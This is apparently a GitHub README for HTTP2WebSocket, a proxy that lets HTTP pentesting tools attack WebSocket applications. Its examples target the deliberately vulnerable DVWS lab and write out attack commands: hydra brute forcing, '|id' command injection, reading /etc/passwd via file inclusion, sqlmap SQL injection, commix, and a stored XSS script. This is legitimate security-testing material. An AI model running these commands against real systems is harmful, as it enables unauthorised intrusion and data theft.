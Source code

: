 HTTP2WebSocket
===============
**Latest release**: 1.0<br>
**License**: GNU GPL

HTTP2WebSocket is tool to translate HTTP/1.1 traffic into Web Sockets traffic.
It can be used in conjunction with standard pentesting tools like sqlmap, dirb, commix or others.<br>
It supports:
* SSL (wss://)
* Proxy
* WS connection initiation based on HTTP Host header

## Requirements
* request
* websocket-client

```bash
pip3 install request websocket-client
```

## Installation
No installation is required.

## Usage
HTTP2WebSocket act as a proxy between HTTP and Web Socket connection. It expects HTTP incomming traffic and translates it to Web Socket application.<br>
GET method is used to discover endpoinds.<br>
POST method is used to sent data to a web socket application.<br>
HTTP2WebSocket can work in two ways. The default one is passing the exact HTTP body to the web socket. The second one is passing only the value of the parameter provided.<br>
HTTP2WebSocket can be binded to a specific application (-t parameter) or it can be provided in each HTTP request through Host header.

## Examples
Examples are based on Damn Vulnerable Web Socket virtual machine.<br>
Details on how to setup DVWS here: [DVWS](https://github.com/interference-security/DVWS)<br>
Docker image of DVWS: [DVWS docker image](https://github.com/tssoffsec/docker-dvwsocket)

### One WS app - full POST body
Run the listener on port 3333 and connect to dvws.local:8080 web socket app on every HTTP request:
```bash
python3 HTTP2WebSocket.py -l 3333 -t ws://dvws.local:8080
```

Brute force:
```bash
for i in 'abc' 'qwe' 'admin' 'asd' 'zxc'; do echo -n $i|base64; done > dict-passwords.b64
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 3333 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect
```

Command execution:
```bash
curl "http://127.0.0.1:3333/command-execution" -d '|id'
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:3333/file-inclusion
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:3333/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner
```

Reflected XSS:
```bash
python2 xsssniper.py -u http://127.0.0.1:3333/reflected-xss --post --data="whatever"
```

Stored XSS:
```bash
curl http://127.0.0.1:3333/post-comments --data '{"name":"zzz","comment":"<script>alert(1111)</script>"}'
curl http://127.0.0.1:3333/show-comments -X POST
```

Discovering endpoints:
```bash
dirb http://127.0.0.1:3333/ endpoints-wordlist.txt
```

Other stuff:
```bash
nikto -host http://127.0.0.1:3333/
```

### One WS app - POST body parameter value
Run the listener on port 4444 and connect to dvws.local:8080 web socket app on every HTTP request.<br>
It sends value of the HTTP POST body parameter *fuzz*. Some tools (E.g. commix) don't recognise plain body which is used by WS app.<br>
```bash
python3 HTTP2WebSocket.py -l 4444 -t ws://dvws.local:8080 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:4444/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname
```

File inclusion :
```bash
python2 fimap.py -s -b --no-auto-detect -u "http://127.0.0.1:4444/file-inclusion" -P "fuzz=xxx"
```

### Multiple WS apps - full POST body
Run the listener on port 5555. Take Host header from each HTTP request and use it as a target WS application.<br>
*NOTE: Protocol type has to be provided in HTTP Host header (E.g. Host: wss://localhost:1234)*

```bash
python3 HTTP2WebSocket.py -l 5555
```

Brute force:
```bash
hydra -t 1 -L dict-passwords.b64 -P dict-passwords.b64 -s 5555 127.0.0.1 http-form-post /authenticate-user-prepared:'{"auth_user"\:"^USER^","auth_pass"\:"^PASS^"}':Incorrect:"H=Host: ws\://dvws.local\:8080"
```

Command execution:
```bash
curl "http://127.0.0.1:5555/command-execution" -d '|id' -H 'Host: ws://dvws.local:8080'
```

Discover endpoints:
```bash
dirb http://127.0.0.1:5555/ ~/endpoints-wordlist.txt -H Host:ws://dvws.local:8080
```

Other:
```bash
nikto -host http://127.0.0.1:5555/ -vhost ws://dvws.local:8080
```

### Multiple WS apps - POST body parameter value
Run the listener on port 6666. Take Host header from HTTP request and use it as a target WS application.<br>
In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python3 HTTP2WebSocket.py -l 6666 -P fuzz
```

Command execution:
```bash
python2 commix.py --url "http://127.0.0.1:6666/command-execution" --data "fuzz=127.0.0.1" --skip-empty --technique=C --hostname --host="ws://dvws.local:8080"
```

File inclusion:
```bash
curl --data '/etc/passwd' 127.0.0.1:6666/file-inclusion -H 'Host: ws://dvws.local:8080'
```

Error SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host="ws://dvws.local:8080"
```

Blind SQL injection:
```bash
sqlmap -u http://127.0.0.1:6666/authenticate-user-blind --data '{"auth_user":"YWFhYWE=","auth_pass":"YWFh"}' --tamper=base64encode --banner --host=ws://dvws.local:8080
```

### All options example
Single example of all the options of HTTP2WebSocket:<br>

In this example actual data which is passed to the web socket application is the value of the *fuzz* parameter.
```bash
python HTTP2WebSocket.py -l 7777 -t wss://dvws.local:8765 -P fuzz -v -k -p 127.0.0.1:8080
```

|Parameter|Description|
|---|---|
|*-l 7777*|Listen on port 7777/TCP|
|*-t wss://dvws.local:8765*|Bind to dvws.local:8765 WS application through SSL|
|*-P fuzz*|Extract the value of the POST body parameter named *fuzz* and pass it to WS application|
|*-v*|Verbose mode|
|*-k*|Ignore SSL warnings and errors|
|*-p 127.0.0.1:8080*|Send all traffic through jttp proxy: 127.0.0.1:8080|

Sending simple request:
```bash
curl http://127.0.0.1:7777/authenticate-user -v -d 'fuzz=dawid'
```